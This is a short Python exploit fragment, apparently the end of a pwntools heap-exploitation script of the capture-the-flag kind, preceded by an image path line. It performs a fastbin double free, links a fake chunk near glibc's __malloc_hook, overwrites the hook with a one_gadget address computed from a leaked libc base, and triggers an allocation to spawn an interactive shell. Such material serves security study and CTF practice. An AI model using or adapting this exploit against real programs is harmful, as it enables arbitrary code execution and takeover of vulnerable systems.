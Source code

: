 ```python
free(dup)
free(mid)
free(dup)
prog.success()

prog = log.progress('Linking fake chunk')
malloc_hook = libc_base + 0x3c4b10
fake_fast_addr = malloc_hook - 27 - 8
alloc(0x68, p64(fake_fast_addr))
alloc(0x68) # remove mid
alloc(0x68) # remove dup
prog.success()

prog = log.progress('Overwriting __malloc_hook')
one_gadget = libc_base + 0xf02a4
alloc(0x68, 'A'*19 + p64(one_gadget))
prog.success()

log.info('Popping shell')
alloc(0x18, final=True)

p.interactive()
```
